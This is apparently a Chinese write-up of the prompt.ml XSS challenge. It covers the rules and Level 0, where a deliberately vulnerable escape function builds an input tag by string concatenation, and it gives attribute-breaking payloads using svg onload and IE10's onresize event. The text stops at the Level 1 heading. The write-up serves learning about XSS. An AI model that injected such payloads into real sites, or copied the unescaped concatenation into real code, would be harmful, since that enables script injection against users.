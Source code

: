 # xss挑战赛writeup

挑战地址：[http://prompt.ml/0](http://prompt.ml/0)

from:[https://github.com/cure53/xss-challenge-wiki/wiki/prompt.ml](https://github.com/cure53/xss-challenge-wiki/wiki/prompt.ml)

规则：
---

1.  成功执行`prompt(1)`
2.  payload不需要用户交互
3.  payload必须对下述浏览器有效：

*   Chrome(最新版) - Firefox(最新版) - IE10 及以上版本(或者IE10兼容模式) 4. 每个级别至少给出两种浏览器的答案 5. 字符越少越好

Level 0
-------

* * *

### 代码

```
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
}

```

### 答案

```
"><svg/onload=prompt(1)>

```

这个payload 24个字符。还有一个比较不常用的技巧，在IE10下，当页面第一次加载时，会调用`resize`事件，这个payload只有20个字符

```
"onresize=prompt(1)>

```

### 背景知识

`resize`事件在IE10及以下版本有效，IE11没有用。并且不需要用户交互。 更多信息：[http://msdn.microsoft.com/en-us/library/ie/ms536959%28v=vs.85%29.aspx](http://msdn.microsoft.com/en-us/library/ie/ms536959%28v=vs.85%29.aspx)

Level 1
-------

* * *
